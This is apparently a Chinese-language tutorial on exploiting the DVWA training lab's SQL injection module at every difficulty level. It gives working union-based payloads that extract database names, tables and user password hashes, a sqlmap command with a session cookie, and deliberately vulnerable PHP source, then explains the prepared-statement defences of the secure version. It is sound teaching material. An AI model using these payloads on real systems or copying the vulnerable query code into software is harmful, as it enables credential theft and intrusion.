2023 // 04 / 04
DVWA 靶场 SQL Injection（SQL 注入）全难度教程（附代码分析）
输入 1' 测试是否存在注入：
1'
发现报错，存在注入点。使用 1' or 1=1 # 判断：
1' or 1=1 #
判断回显字段数（尝试 3）：
1' union select 1,2,3 #
报错了，说明字段数为 2：
1' union select 1,2 #
查询版本和数据库名：
-1' union select database(),version() #
获取所有表名：
-1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #
获取 users 表的列名：
-1' union select 1,group_concat(column_name) from information_schema.columns where table_name='users'#
获取 user 和 password 数据：
-1' union select 1,group_concat(user,password) from users #
密码为 MD5 加密，可在线解密或使用 hashcat 破解。
使用 sqlmap 自动化注入。先抓包获取 Cookie：

sqlmap -u "http://192.168.21.149/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low;PHPSESSID=9i79dn4ugiv0vc6gm25352at83" --batch
后续操作与 sqli-labs 靶场相同。
Medium 级别将请求方式从 GET 改为了 POST：

抓包修改 id 参数即可进行注入：

后续注入方法与 Low 相同。
<?php
if( isset( $_POST[ 'Submit' ] ) ) {
// Get input
$id = $_POST[ 'id' ];
$id = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
// Check database
$query = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
$result = mysqli_query($GLOBALS["___mysqli_ston"], $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
// Get results
while( $row = mysqli_fetch_assoc( $result ) ) {
// Display values
$first = $row["first_name"];
$last = $row["last_name"];
// Feedback for end user
echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
}
//mysql_close();
}
?>使用了 mysqli_real_escape_string() 对输入进行转义（\x00、\n、\r、\、'、"、\x1a），但 SQL 查询中 $id 未加引号包围，因此数字型注入依然可以正常执行。
返回结果输出在原来的界面上，注入方法与 Low 相同：

<?php
if( isset( $_SESSION [ 'id' ] ) ) {
// Get input
$id = $_SESSION[ 'id' ];
// Check database
$query = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
$result = mysqli_query($GLOBALS["___mysqli_ston"], $query ) or die( '<pre>Something went wrong.</pre>' );
// Get results
while( $row = mysqli_fetch_assoc( $result ) ) {
// Get values
$first = $row["first_name"];
$last = $row["last_name"];
// Feedback for end user
echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
}
((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}
?>相比 Medium，High 级别没有使用 mysqli_real_escape_string()，而是将 id 存入 Session 中再取出执行查询。查询加了 LIMIT 1 限制，但对注入方法没有实质影响。
<?php
if( isset( $_GET[ 'Submit' ] ) ) {
// Check Anti-CSRF token
checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );
// Get input
$id = $_GET[ 'id' ];
// Was a number entered?
if(is_numeric( $id )) {
// Check the database
$data = $db->prepare( 'SELECT first_name, last_name FROM users WHERE user_id = (:id) LIMIT 1;' );
$data->bindParam( ':id', $id, PDO::PARAM_INT );
$data->execute();
$row = $data->fetch();
// Make sure only 1 result is returned
if( $data->rowCount() == 1 ) {
// Get values
$first = $row[ 'first_name' ];
$last = $row[ 'last_name' ];
// Feedback for end user
echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
}
}
}
// Generate Anti-CSRF token
generateSessionToken();
?>Impossible 级别采用了三重防护：
$db->prepare() 和 bindParam()，划清了 SQL 代码与数据的界限，从根本上防御了 SQL 注入is_numeric($id) 确保输入必须为数字rowCount() == 1 防止批量数据泄露（"脱裤"）checkToken() 和 generateSessionToken() 防止跨站请求伪造